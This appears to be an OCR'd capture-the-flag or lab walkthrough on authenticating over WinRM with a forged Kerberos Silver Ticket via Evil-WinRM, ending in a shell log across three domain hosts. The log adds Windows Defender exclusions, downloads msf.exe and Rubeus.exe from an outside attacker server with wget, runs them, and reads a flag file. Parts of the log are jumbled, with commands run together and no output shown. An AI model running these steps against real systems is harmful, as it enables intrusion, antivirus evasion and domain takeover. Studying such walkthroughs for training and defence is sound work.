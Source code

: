 I will be showing a few methods to authenticate and get a shell using Kerberos authentication over WinRM.

If you're running on Linux, you will need a few prerequisites for using the methods I'll be showing.

First, the `krb5-user` package must be installed. This package provides the GSSAPI library for some of the tools we will be using.

Then, we need to modify `/etc/krb5.conf` to include the domain information:

```ini
[libdefaults]
default_realm = FACTORIES.MAMMAMIA.LOCAL
kdc_timesync = 1
ccache_type = 4
forwardable = true
proxiable = true
fcc-mit-ticketflags = true

[realms]
FACTORIES.MAMMAMIA.LOCAL = {
  kdc = 1.2.3.4
}

[domain_realm]
.factories.mammamia.local = FACTORIES.MAMMAMIA.LOCAL
```

Notice that we don't have access to a domain controller, and since we will be using the Silver Ticket, we don't need to specify the KDC. Later when we start proxying traffic, it can be a good idea to specify a KDC.

We should add also `factws.factories.mammamia.local` to our `/etc/hosts` file and point it to `172.16.0.2`, as the upcoming methods use the hostname to find the ticket in your Kerberos cache - although this can be overridden for some tools.

Lastly, we need to set the `KRB5CCNAME` environment variable to the path of the Silver Ticket we created:

```bash
export KRB5CCNAME=attacker.ccache
```

When using `krb5-user` and the GSSAPI library, we can set the `KRB5_TRACE` environment variable to `/dev/stdout` to see the Kerberos interactions. This can be useful for troubleshooting.

##### Evil-WinRM

Evil-WinRM supports Kerberos authentication using the `-r <domain>` flag.

If we now attempt to authenticate to the factory PC using the Silver Ticket and `evil-winrm` with Kerberos authentication, we should however see that it still fails:

```bash
$ evil-winrm -i factws.factories.mammamia.local -u '' -p '' -S -r 'factories.mammamia.local'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Warning: User is not needed for Kerberos auth. Ticket will be used

Warning: Password is not needed for Kerberos auth. Ticket will be used
```

[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      